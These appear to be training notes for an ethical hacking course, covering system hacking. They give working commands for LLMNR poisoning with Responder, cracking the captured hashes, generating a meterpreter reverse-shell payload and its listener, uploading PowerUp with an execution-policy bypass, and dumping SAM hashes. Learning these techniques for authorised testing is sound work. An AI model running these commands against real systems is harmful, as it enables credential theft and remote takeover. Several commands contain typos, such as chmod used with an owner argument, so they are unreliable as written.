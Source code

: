 # Module 6

## System Hacking
The ethical hacking phase where testers exploit vulnerabilities to obtain unauthorized entry into systems, demonstrating potential real-world attack paths.

**Objective**: Simulate how an attacker would exploit vulnerabilities to demonstrate risk.

**Approach**: Done only in lab environments or with explicit permission.

**Steps involved**:
- Exploitation of known vulnerabilities (using tools like Metasploit).
- Password attacks (brute-force, dictionary, credential stuffing).
- Exploiting misconfigurations (weak services, unpatched systems).
- Social engineering (phishing, malicious payloads).

---

### 1. Gain access to the system
The penetration testing phase where attackers exploit discovered vulnerabilities to enter a target system and establish unauthorized access.

#### 1.1 Perform Active Online Attack to Crack the System’s Password using Responder
LLMNR (link local multicast name resolution) and NBT-NS (netbios namer service) are used to performe name resolution on the local link.

Responder is LLMNR, NBT-NS, MDNS poisoner. By default the tool only responds to SMB.

**Steps**:
- Check the interfaces
  - `ifconfig`
- Now run responder on the interface.
  - `sudo responder -I ens33`
- Now when a user on the LAN try to access the unavailable share, responder will capture the hash.
- Logs are stored in /usr/share/responder folder. We will have a hash. Now crack it with John.
- On ubuntu you can install john as 
  - `sudo snap install john-the-ripper`
  - `sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt`

#### 1.2 Audit system passwords using Lophtcrack 
Windows tool can crack other password on remote machine if you know a single account utilizing SMB. Use password auditing. use password auditing wizard.

[L0phtCrack](https://l0phtcrack.gitlab.io/)

#### 1.3 Find Vulnerabilities on exploit sites

[Offensive Security’s Exploit Database Archive](https://www.exploit-db.com/)

#### 1.4 Gain Access to a Remote System using Reverse Shell Generator

**Steps**:
- Create msfvenom payload
  - `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x64 LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.ex`
- Using apache to transfer the file
  - `mkdir /var/www/html/share`
  - `chmod -R 755 /var/www/html/share`
  - `chmod -R www-data:www-data /var/www/html/share`
  - `service apche2 start`
- Now run msfconsole
  - `msfconsole`
  - `use exploit/multi/handler`
- Set the payload type, port and IP and visit the IP to download the executable. Run it you will get the shell
- You can run the following commands in meterpreter
  - `sysinfo`  //get system information
- Upload file through meterpreter
- The powersploit priv escaltion script./usr/share/windows-resources/powersploit
  - `upload PowerUp.ps1 powerup.ps1`
- Now get shell
  - `shell`
- Now execute the script
  - `powershell -ExecutionPolicy bypass -command ". .\powerup.ps1;invoke-All-Checks"`
- Now exit it and to get a VNC from meterpreter use the following command
  - `run vnc`

[Online - Reverse Shell Generator](https://www.revshells.com/)

#### 1.5 Gain access to a system using armitage

**Steps**:
- GUI based msf
  - `service postgresql start`
- Now run armitage from Applications menu. Run intense scan. and then we can create a payload according to our target
- Once the victim opens the payload, we get the session.

#### 1.6 Gain access to system using Ninja Jonin

**Steps**:
- Ninja is installed on target and Jonin on attacker machine.
  - [GitHub](https://github.com/ErAz7/Ninja)
- We need to edit its config file to change the ip and port.
<img width="646" height="448" alt="image" src="https://github.com/user-attachments/assets/b623ed60-ae2b-4f70-ac26-458f3f80bcd2" />
- Open the Jonin listenere. it will catch the sessions.
  - `list`  //to list all sessions
  - `connect 1` //to connect to session
  - //to get to cmd
    - `change`
    - `cmd`
  - `help` //displays help

#### 1.7 Buffer Overflow
A security vulnerability that occurs when a program writes more data into a buffer (temporary storage) than it can hold, causing adjacent memory to be overwritten and potentially allowing attackers to execute malicious code.

- [Simple Stack Based Buffer Overflow Tutorial for Vulnserver · The Grey Corner](https://thegreycorner.com/2011/03/11/simple-stack-based-buffer-overflow.html)
- [Buffer Overflow | Pentesting Quick Reference OSCP and Beyond](https://notes.cavementech.com/pentesting-quick-reference/buffer-overflow)

**Tools required**:
- [Vulnerable server used for learning software exploitation](https://github.com/stephenbradshaw/vulnserver)
- [https://debugger.immunityinc.com/](https://debugger.immunityinc.com/)

#### 1.8 System  Password hacking
System Password Hacking is the process of attempting to crack or bypass authentication mechanisms to gain unauthorized access to a system, typically using techniques like brute force, dictionary attacks, phishing, or exploiting weak/hashed passwords.

- `pwDump7.exe> hashes.txt` //To Dump Windows SAM file hashes

---

### 2. Privilege Escalation
Process of exploiting vulnerabilities, misconfigurations, or weak permissions to gain higher-level access rights (e.g., from a normal user to administrator/root) within a system or network.

